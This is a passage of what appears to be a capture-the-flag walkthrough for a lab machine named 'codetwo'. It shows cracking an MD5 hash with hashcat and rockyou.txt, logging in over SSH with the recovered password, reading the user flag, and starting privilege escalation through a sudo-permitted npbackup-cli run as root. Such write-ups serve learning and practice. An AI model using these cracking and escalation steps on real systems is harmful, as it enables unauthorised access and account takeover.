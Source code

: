 I used hashcat to retrive the password in order to enstablish a connection:

`hashcat -m 0 649c9d65a206a75f5abe509fe128bce5 /usr/share/wordlists/rockyou.txt`

`649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove` 

`ssh marco@10.10.11.82`
`sweetangelbabylove`

`cat user.txt`

`55c81c36193c12d8d0f2ab0c5f79875c`

And the user flag is achived!

Now lets move to the root flag!

`sudo -l`

```
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```
This means that we can run the backup utility as root, without needing a password.

This execute the backup process using `/home/marco/npbackup.conf`:

`sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b -f`

```
2025-09-01 08:56:45,923 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-01 08:56:45,951 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-01 08:56:45,963 :: INFO :: Running backup of ['/home/app/app/'] to repo default
2025-09-01 08:56:47,315 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excluded_extensions
2025-09-01 08:56:47,316 :: ERROR :: Exclude file 'excludes/generic_excluded_extensions' not found
2025-09-01 08:56:47,316 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excludes
2025-09-01 08:56:47,316 :: ERROR :: Exclude file 'excludes/generic_excludes' not found
2025-09-01 08:56:47,316 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/windows_excludes
2025-09-01 08:56:47,316 :: ERROR :: Exclude file 'excludes/windows_excludes' not found
2025-09-01 08:56:47,316 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/linux_excludes
2025-09-01 08:56:47,316 :: ERROR :: Exclude file 'excludes/linux_excludes' not found
2025-09-01 08:56:47,316 :: WARNING :: Parameter --use-fs-snapshot was given, which is only compatible with Windows
using parent snapshot 35a4dac3

Files:           0 new,     4 changed,     8 unmodified
Dirs:            0 new,     7 changed,     2 unmodified
Added to the repository: 40.053 KiB (15.687 KiB stored)

processed 12 files, 48.910 KiB in 0:00
snapshot ae5fa50d saved
2025-09-01 08:56:48,518 :: INFO :: Backend finished with success
2025-09-01 08:56:48,520 :: INFO :: Processed 48.9 KiB of data
2025-09-01 08:56:48,520 :: ERROR :: Backup is smaller than configured minmium backup size
2025-09-01 08:56:48,520 :: ERROR :: Operation finished with failure
2025-09-01 08:56:48,521 :: INFO :: Runner took 2.560583 seconds for backup
2025-09-01 08:56:48,522 :: INFO :: Operation finished
2025-09-01 08:56:48,529 :: INFO :: ExecTime = 0:00:02.608797, finished, state is: errors.
```
